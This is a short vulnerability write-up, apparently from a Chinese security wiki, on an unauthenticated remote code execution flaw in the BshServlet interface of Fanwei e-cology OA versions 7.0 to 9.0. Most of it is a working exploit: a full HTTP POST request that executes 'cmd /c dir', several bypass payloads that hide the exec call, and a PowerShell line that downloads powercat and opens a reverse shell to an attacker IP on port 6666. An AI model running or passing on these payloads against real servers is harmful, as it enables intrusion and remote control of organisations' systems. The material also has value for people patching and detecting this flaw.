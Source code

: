 # Panwei OA E-Cology BshServlet Remote Code Execution Vulnerability CNVD-2019-32204

## Vulnerability Description

On September 17, 2019, Fanwei OA officially updated a remote code execution vulnerability patch. The Java Beanshell interface of the Panwei e-cology OA system can be accessed unauthorized. The attacker calls the Beanshell interface and can construct specific HTTP requests to bypass some security restrictions on Fanwei itself to achieve remote command execution. The vulnerability level is serious.

## Network surveying and mapping



## Affect Version

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">E-cology 7.0</span>
<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">E-cology 8.0</span>
<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">E-cology 8.1</span>
<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">E-cology 9.0</span>

## Vulnerability reappears



![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/fanwei-6.png)



The request package is

```shell
POST /weaver/bsh.servlet.BshServlet HTTP/1.1
Host: xxxxxxxx:8088
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Length: 98
Content-Type: application/x-www-form-urlencoded

bsh.script=ex\u0065c("cmd /c dir");&bsh.servlet.captureOutErr=true&bsh.servlet.output=raw
```

About Bypass

```shell
eval%00("ex"%2b"ec(\"whoami\")");
ex\u0065c("cmd /c dir");
IEX(New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1');powercat -c ip -p 6666 -e cmd
```



## 